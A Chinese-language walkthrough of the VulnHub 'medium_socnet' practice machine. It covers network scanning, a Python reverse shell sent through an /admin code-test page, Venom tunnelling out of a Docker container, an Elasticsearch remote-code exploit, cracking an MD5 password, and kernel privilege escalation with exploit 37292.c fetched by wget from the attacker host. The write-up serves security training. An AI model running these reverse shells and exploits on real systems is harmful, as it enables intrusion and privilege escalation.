# 靶机下载地址

https://download.vulnhub.com/boredhackerblog/medium_socnet.ova

.

# 靶机目标

获取靶机root权限


# 工具准备

- dirsearch
- Venom下载地址：https://github.com/Dliv3/Venom/
- MD5密码查询网站：https://cmd5.com/


# 详细步骤


## 网络扫描

1.同网段主机扫描

```
arp-scan -l -I eth1
```




>对比MAC地址可知道靶机地址为192.168.56.101


2.直接访问无果，对目标靶机进行全端口扫描

```
nmap -p- 192.168.56.101
```



发现开启22与5000端口

3.识别靶机端口开放的服务

```
nmap -p 22,5000 -sV 192.168.56.101
```


初步观察到5000端口的http为python提供服务


## web信息收集

1.浏览器访问192.168.56.101:5000，尝试xss注入，发现并没有什么漏洞



2.对192.168.56.101:5000进行目录扫描

```
dirsearch -u http://192.168.56.101:5000/
```


扫描到有一个/admin的目录

对192.168.56.101:5000/admin进行访问


发现是一个测试代码的页面

因为指纹收集时，发现是一个python提供的服务，所以预使用python反弹一个shell


## web命令执行漏洞与反弹shell

1.首先在kali机上用nc开启一个监听端口

```
nc -lvvp 9999
```

2.在[棱角社区](https://forum.ywhack.com/shell.php)找到一个python的反弹shell命令

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.103",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

192.168.56.103为kali机的IP，9999为刚刚开启的监听端口



获得shell后，`ls`查看下当前目录



发现有个Dockerfile文件，猜测获取的shell主机可能是docker容器里面的一个靶机，进一步验证主机是否为docker容器

方法1：确认根目录下是否存在.dockerenv文件

```
ls /.dockerenv
```


方法2：查看/proc/1/cgroup是否存在docker目录

```
cat /proc/1/cgroup
```

发现确定为docker容器里面的靶机

ifconfig查看主机网卡状态


复现主机内网段为172.17.0.3/16网段


## 内网穿透

1.内网扫描

```
for i in $(seq 1 254); do ping -c 1 172.17.0.$i; done
```

写一个简单的shell脚本，帮助我们快速使用ping命令扫描同网段的IP



发现了`172.17.0.1`，`172.17.0.2`，`172.17.0.3`为存活的主机

为了进一步扫描存活主机的信息，需要使用nmap工具，于是想到搭建内网穿透

2.部署Venom内网穿透工具

> - 监听的窗口继续开着，另外开一个窗口，在Kali主机Venom目录启动Python3 Http Server，搭建一个临时的http服务，让docker主机下载kali主机的Venom的客户端
>
> ```
> python3 -m http.server 80
> ```
>
> 
>
> - 启动Venom管理端，监听本地10086端口
>
> ```
> ./admin_linux_x64 -lport 10086
> ```
>
> 
>
> - 然后再主机（docker）上部署Venom客服端
>
> ```
> cd /tmp
> wget -c http://192.168.56.101/agent_linux_x64           //下载客户端
> chmod 777 agent_linux_x64								//提升权限
> ./agent_linux_x64 -rhost 192.168.56.103 -rport 10086	//执行客户端访问目标
> ```
>
> 
>
> 然后会发现kali主机的Venom管理端可以看到有主机上线
>
> 
>
> 查看刚刚连接的节点（`show`），选择节点（`goto 1`），启动socks隧道并指定1080为隧道端口（`socks 1080`）
>
> 
>
> docker主机与Venom的socks隧道已经建立完成
>
> 现在需要把kali主机挂上Venom的socks隧道代理，让kali能通过docker的流量执行命令


## 再kali主机挂上socks内网代理并进行扫描

1.修改proxychains配置（代理文件配置）

```
vi /etc/proxychains.conf
修改最后一行为：
socks5  127.0.0.1 1080
```

> 

2.保存好后，挂代理启动扫描，扫描`172.17.0.1`，`172.17.0.2`，`172.17.0.3`主机

```
proxychains nmap -Pn -sT -sV 172.17.0.1
proxychains nmap -Pn -sT -sV 172.17.0.2
proxychains nmap -Pn -sT -sV 172.17.0.3
```

 

 

> 扫描后发现`172.17.0.1`，`172.17.0.3`一样，存在22，5000端口，但发现`172.17.0.2`存在9200端口
>
> 访问一下

 


## 利用Elasticsearch获取目标靶机登录名字和密码

1.搜索Elasticsearch漏洞

```
searchsploit Elasticsearch
```



2.把查找到的36337.py复制到当前目录使用

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .
```


3.挂proxychains攻击目标`172.17.0.2`

```
proxychains python2 36337.py 172..17.0.2
```

> 查看脚本发现是python2的脚本，所以用python2运行



4.查询用户身份并检查目录



发现用户为root用户，目录下有passwords这种敏感目录，查看


发现内置用户名和密码，密码是加密的

5.破解密码

使用[MD5在线解密](https://www.somd5.com/)



6.使用john用户登录目标靶机

```
ssh john@192.168.56.101
```



> 密码输入上面解密出来的`1337hack`


## Linux内核提权

1.查看用户权限和版本

```
id
uname -a
```


> 发现权限为普通用户权限，版本为Ubuntu 3.13.0

2.搜索版本漏洞

```
searchsploit Linux 3.13
```


找到对应版本的脚本`37292.c`，复制到桌面目录方便使用

```
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
```


注意：因为之前尝试编译过报错，且发送给靶机提权失败，所以需要改动文件


需要把`37292.c`里面的这些代码给注释掉，且需把它用Ubuntu编译，再发送给靶机

查看`37292.c`文件也得知需要有一个`ofs-lib.so`库文件


```
locate ofs-lib.so
cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so .
```


3.kali主机内的docker下载Ubuntu靶机编译文件

```
docker search ubuntu14
```


```
docker pull ansible/ubuntu14.04-ansible
```


```
docker run -it --name ubuntu14 ansible/ubuntu14.04-ansible
```


```
apt update
apt-get install wget
```

然后更新好apt，安装wget

启动好系统（Ubuntu）后，kali开启临时http服务，让系统（Ubuntu）下载




```
gcc -o exp 37292.c
```

编译文件


```
docker cp ubuntu14:/exp .
```

然后把docker里面的文件复制出来


```
python3 -m http.server 100
```

> 开启100端口的http服务

```
wget -c http://192.168.56.103:100/exp
wget -c http://192.168.56.103:100/ofs-lib.so
```



```
mv exp tmp
mv ofs-lib.so tmp
chmod +x exp
./exp
```

移动至tmp目录下，并给予权限，再执行，则提权成功！


